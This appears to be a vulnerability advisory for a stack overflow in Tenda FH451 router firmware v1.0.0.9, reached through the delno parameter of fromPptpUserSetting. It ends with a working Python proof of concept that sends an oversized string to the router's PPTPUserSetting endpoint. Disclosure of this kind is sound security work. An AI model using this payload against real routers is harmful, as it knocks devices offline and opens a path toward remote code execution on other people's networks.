

# Tenda FH451 fromPptpUserSetting
### Overview
vendor: Tenda

product: FH451

version: v1.0.0.9

type: Stack Overflow
### Vulnerability Description
Tenda FH451 v1.0.0.9 were discovered to contain a stack overflow via the delno parameter in the fromPptpUserSetting function.

### Vulnerability details
In function fromPptpUserSetting line 18, it reads in a user-provided parameter `delno`. The variable `Var` is assigned to the variable `Var_1`, and the variable `Var_1` is passed to the `memcpy` function without any length check, which may overflow the stack-based buffer `dest`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.



### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/PPTPUserSetting"

data = {
    "delno": "a" * 1000 + ";b"
}

response = requests.post(url, data=data)
print(response.text)
```